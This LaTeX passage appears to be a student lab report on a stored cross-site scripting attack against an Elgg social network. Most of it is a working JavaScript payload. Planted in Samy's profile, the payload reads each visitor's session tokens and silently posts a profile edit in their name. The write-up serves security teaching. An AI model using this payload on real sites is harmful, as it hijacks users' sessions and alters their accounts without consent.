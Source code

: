 \documentclass[a4paper,11pt]{article}
\begin{document}
First, we modify the code as lstlisting \ref{lst:task11} in samy's profile as shown in \ref{fig:task11.1}, for modifying the one who visit the Samy's profile. As shown in Figure \ref{fig:task11.2}, when Boby visiting Samy's profile will result in his profile's modifying to the given String \verb|Hello World|. The result indicates that the script successfully modified Boby's Profile.
\begin{figure}[h]
    \centering
    \hfill
    \hfill
    \caption{Observations}\label{fig:task11-1}
\end{figure}

\begin{lstlisting}[caption={POST edit Code},label={lst:task11},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var propagatescript="&description="+'Hello World';
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid)
 {
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}
\end{document}
